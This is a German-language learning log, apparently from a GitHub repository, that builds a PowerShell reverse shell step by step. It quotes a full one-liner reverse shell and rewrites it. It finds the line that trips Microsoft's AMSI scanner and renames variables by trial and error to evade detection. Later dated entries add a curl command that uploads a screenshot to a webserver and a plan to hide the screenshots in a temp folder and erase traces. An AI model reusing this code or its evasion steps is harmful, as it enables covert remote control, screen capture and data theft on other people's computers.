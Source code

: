 # Learning zur Reverse Shell



One Liner Reverse Shell in einer Powershell
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Quelle: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell

In Powershell umgeschrieben sieht der Code so aus:

```powershell
New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);
$stream = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()}
    
$client.Close()
```

Führt man den Code in der Powershell aus. Kommt folgeden Fehlermeldung:

![image](https://github.com/user-attachments/assets/a9f07a42-b9cc-44c4-8627-e6568bd53662)

Die Fehlermeldung wird durch das Antimalware Scan Interface (kurz. AMSI) aufgerufen. AMSI analysiert den eingegeben Code auf Strukturen bekannter Schadsoftware. [Microsoft](https://learn.microsoft.com/de-de/windows/win32/amsi/antimalware-scan-interface-portal) nutzt AMSI für:
- Benutzerkontensteuerung bzw. UAC (Erhöhung von Rechten für EXE-, COM-, MSI- oder ActiveX-Installation)
- PowerShell (Skripts, interaktive Verwendung und dynamische Codeauswertung)
- Windows Script Host („wscript.exe“ und „cscript.exe“)
- JavaScript und VBScript
- VBA-Makros in Office

AMSI ist kein unbekanntes System, weshalb es einigen Anwendern gelungen einen Bypass zu erschaffen. Dazu wird die `amsi.dll` mit dem Ziel manipuliert, dass bosthafter Code als sauber zu indentifiziert wird. Dies ist ein Thema für sich, weshalb für diese Arbeit ein anderer Bypass gewählt wurde. Für die Analyse wurde der Code Zeile für Zeile ausgeführt. So konnte bestimmt werden, an welcher Stelle AMSI ausschlägt:

```
$sendback2  = $sendback + "PS " + (pwd).Path + "> "
```
"pwd": Gibt den aktuellen Pfad wieder. Es scheint, als ist "pwd" in diesem Kontext ein Signal für Schadsoftware/Skript. Alternative kann in Powershell der Befehl ```GET-Location``` ausgeführt werden.

Durch Trial and Error ensteht der folgende angepasste Powershell-Code:

```powershell
$hmGuXO='127.0.0.1'
$port = 4422
$client = New-Object System.Net.Sockets.TCPClient($hmGuXO,$port);
$SAAAD = $client.GetStream()

[byte[]]$bytes = 0..65535|%{0}

$sendbyte = ([text.encoding]::ASCII).GetBytes('PS '+(Get-Location).Path+'> ')
$SAAAD.Write($sendbyte,0,$sendbyte.Length)

while(($i = $SAAAD.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
   $sendback2  = $sendback + "PS " + (pwd).Path + "> "
   $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $SAAAD.Write($sendbyte,0,$sendbyte.Length)
 $SAAAD.Flush()}
    
$client.Close()

```


---
28.01.: Code angepasst vom Server -> Upload zum Webserver mit 
```
curl -X POST -F "file=@C:/Users/admin/Desktop/screenshot.png" http://127.0.0.1:5000/upload
```
---
29.01.: Code angepasst vom Server -> Screenshot wird in einem Temporären Ordner gespeichert

Der erstelle Screenshot soll in einem temporären Ordner gespeichert werden. Nachdem der Screenshot an den Webserver geschickt wurde, sollen alle Spuren beseitigt werden. 
```cmd
if(-not(Test-Path -Path "$env:TEMP\screenshot")){mkdir $env:TEMP\screenshot}
```
Die "normal" gestartete Powershell hat nicht die Berechtigung überall Ordner zu erstellen. Mit folgendem [dir](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir)-Befehl werden Ordner aufgelistet, die eine "write"-Berechtigung besitzen:
```cmd
dir /ad-r
```
/a[[:]<attributes>]	Displays only the names of those directories and files with your specified attributes. If you don't use this parameter, the command displays the names of all files except hidden and system files. If you use this parameter without specifying any attributes, the command displays the names of all files, including hidden and system files. The list of possible attributes values are:

- d: Directories
- r: Read-only files
  
You can use any combination of these values, but don't separate your values using spaces. Optionally you can use a colon (:) separator, or you can use a hyphen (-) as a prefix to mean, "not". For example, using the -s attribute won't show the system files.
